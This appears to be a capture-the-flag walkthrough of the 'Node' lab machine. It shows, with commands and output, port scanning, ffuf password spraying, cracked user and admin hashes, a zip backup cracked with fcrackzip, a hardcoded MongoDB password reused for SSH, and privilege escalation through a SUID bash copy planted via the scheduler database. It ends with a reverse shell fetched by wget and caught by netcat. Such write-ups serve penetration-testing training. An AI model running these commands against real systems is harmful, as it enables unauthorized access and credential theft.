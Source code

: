 ```php
22/tcp   open  ssh                OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:5e:34:a6:25:db:43:ec:eb:40:f4:96:7b:8e:d1:da (RSA)
|   256 6c:8e:5e:5f:4f:d5:41:7d:18:95:d1:dc:2e:3f:e5:9c (ECDSA)
|_  256 d8:78:b8:5d:85:ff:ad:7b:e6:e2:b5:da:1e:52:62:36 (ED25519)
3000/tcp open  hadoop-tasktracker Apache Hadoop
| hadoop-tasktracker-info: 
|_  Logs: /login
| hadoop-datanode-info: 
|_  Logs: /login
```

Looks like we have some kind of web app on port 3000 - `http://10.129.183.100:3000/`
Lets do some fuzzing, our goal is to find a place to upload

```php
ffuf -u http://10.129.183.100:3000/FUZZ -w /home/drew/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -of html -o ffuf_scan.html -fc 404

gobuster dir -u http://10.129.183.100:3000 -w /home/drew/tools/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt --no-error -o gobuster.txt
```

looks like directory busting is a no go for us

```php
http://10.129.183.100:3000/login
```

We do have this login page
I test it on incognito, there appears to be no rate limiting when attempting to login so lets hop on burp suite and try a password spray attack

```php
ffuf -w /home/drew/tools/SecLists/Usernames/top-usernames-shortlist.txt:USER -w /home/drew/tools/SecLists/Passwords/Common-Credentials/10k-most-common.txt:PASS \
     -X POST \
     -H "Content-Type: application/json" \
     -H "Accept: application/json" \
     -d '{"username":"USER","password":"PASS"}' \
     -u http://10.129.183.100:3000/api/session/authenticate \
     -fc 401,403
```

```php
ffuf -w /home/drew/tools/SecLists/Usernames/top-usernames-shortlist.txt:USER \
     -w /home/drew/tools/SecLists/Passwords/Common-Credentials/10k-most-common.txt:PASS \
     -X POST \
     -H "Content-Type: application/json" \
     -H "Accept: application/json" \
     -d '{"username":"USER","password":"PASS"}' \
     -u http://10.129.183.100:3000/api/session/authenticate \
     -mr "token"
```

```php
ffuf -w /home/drew/tools/SecLists/Usernames/top-usernames-shortlist.txt:USER \
     -w /home/drew/tools/SecLists/Passwords/Common-Credentials/10k-most-common.txt:PASS \
     -X POST \
     -H "Content-Type: application/json" \
     -H "Accept: application/json" \
     -d '{"username":"USER","password":"PASS"}' \
     -u http://10.129.183.100:3000/api/session/authenticate \
     -fs 48
```

```php
ffuf -w /home/drew/tools/SecLists/Usernames/xato-net-10-million-usernames.txt:USER \
     -w /home/drew/tools/SecLists/Passwords/Common-Credentials/100k-most-used-passwords-NCSC.txt:PASS \
     -X POST \
     -H "Content-Type: application/json" \
     -H "Accept: application/json" \
     -d '{"username":"USER","password":"PASS"}' \
     -u http://10.129.183.100:3000/api/session/authenticate \
     -fs 48
```

```php
ffuf -w /home/drew/tools/SecLists/Passwords/Common-Credentials/100k-most-used-passwords-NCSC.txt:PASS \
     -X POST \
     -H "Content-Type: application/json" \
     -H "Accept: application/json" \
     -d '{"username":"admin","password":"PASS"}' \
     -u http://10.129.183.100:3000/api/session/authenticate \
     -fs 48

```

Lets view the source code and explore the files
```php
http://10.129.183.100:3000/assets/js/app/controllers/home.js
```

We find an end point `/api/users/latest` that shows all recent users

```php
f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240:spongebob
de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73:snowflake

tom:spongebob
mark:snowflake
```

We have logged in successfully as tom and mark

Playing around with end points I found `http://10.129.183.100:3000/api/users`
This revealed to use a log of an admin

```php
[{"_id":"59a7365b98aa325cc03ee51c","username":"myP14ceAdm1nAcc0uNT","password":"dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af","is_admin":true}
```

```php
myP14ceAdm1nAcc0uNT:manchester
```

We are greeted with a button that lets us download a backup file `myplace.backup`

```
fcrackzip -v -u -D -p /home/drew/tools/SecLists/Passwords/Leaked-Databases/rockyou.txt decoded.backup
```

```
fcrackzip -v -u -D -p ~/rockyou.txt decoded.backup
PASSWORD FOUND!!!!: pw == magicword
unzip -P magicword decoded.backup -d myplace_contents
ls -R myplace_contents/
```

Exploring the contents of `App.js`

```php
const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
const backup_key  = '45fac180e9eee72f4fd2d9386ea7033e52b7c740afc3d98a8d0230167104d474';

mark:5AYRft73VtFpc84k
```

```
ssh mark@10.129.183.100
5AYRft73VtFpc84k
```

```php
              .-. 
        .-'``(|||) 
     ,`\ \    `-`.                 88                         88 
    /   \ '``-.   `                88                         88 
  .-.  ,       `___:      88   88  88,888,  88   88  ,88888, 88888  88   88 
 (:::) :        ___       88   88  88   88  88   88  88   88  88    88   88 
  `-`  `       ,   :      88   88  88   88  88   88  88   88  88    88   88 
    \   / ,..-`   ,       88   88  88   88  88   88  88   88  88    88   88 
     `./ /    .-.`        '88888'  '88888'  '88888'  88   88  '8888 '88888' 
        `-..-(   ) 
              `-` 




The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

Ubuntu comes with ABSOLUTELY NO WARRANTY, to the extent permitted by
applicable law.

Last login: Wed Sep 27 02:33:14 2017 from 10.10.14.3
mark@node:~$ 
```

```php
ps aux
tom       1288  0.0  6.1 1008568 46384 ?       Ssl  16:53   0:01 /usr/bin/node /
```

```php
ps aux | grep tom
tom       1288  0.0  6.1 1008568 46912 ?       Ssl  16:53   0:01 /usr/bin/node /var/scheduler/app.js
tom       1297  4.3  8.1 1242856 61804 ?       Ssl  16:53   9:12 /usr/bin/node /var/www/myplace/app.js
mark      1978  0.0  0.1  11284  1016 pts/2    S+   20:26   0:00 grep --color=auto tom

/usr/bin/node /var/scheduler/app.js
/var/scheduler/app.js
```

```php
mongo -p u mark scheduler
> db.tasks.insert({"cmd":"/bin/cp /bin/bash /tmp/tom; /bin/chown tom:admin /tmp/tom; chmod g+s /tmp/tom; chmod u+s /tmp/tom"});
WriteResult({ "nInserted" : 1 })
```

```php
cd /tmp

mark@node:/tmp$ ./tom -p
tom-4.3$ id
uid=1001(mark) gid=1001(mark) euid=1000(tom) egid=1002(admin) groups=1002(admin),1001(mark)
tom-4.3$ 
```

wget revshell

python -m http.server 8081

nc -nvlp 4444
Listening on 0.0.0.0 4444

Connection received on 10.129.183.100 35684
mark@node:/tmp$ whoami
whoami
mark

./tom -p 
tom-4.3$ id
uid=1001(mark) gid=1001(mark) euid=1000(tom) egid=1002(admin) groups=1002(admin),1001(mark)

mark@node:/tmp$ ls -l
ls -l
total 1028
srwx------ 1 mongodb nogroup       0 Jun  4 16:53 mongodb-27017.sock
-rwxrwxr-x 1 tom     admin        43 Jun  4 20:47 revshell.sh
drwx------ 3 root    root       4096 Jun  4 16:53 systemd-private-464ee4fd10274bd8850a0a78edb46bd3-systemd-timesyncd.service-RVqBDG
-rwsr-sr-x 1 tom     admin   1037528 Jun  4 20:43 tom
drwx------ 2 root    root       4096 Jun  4 16:53 vmware-root

executing as tom will give us an admin shell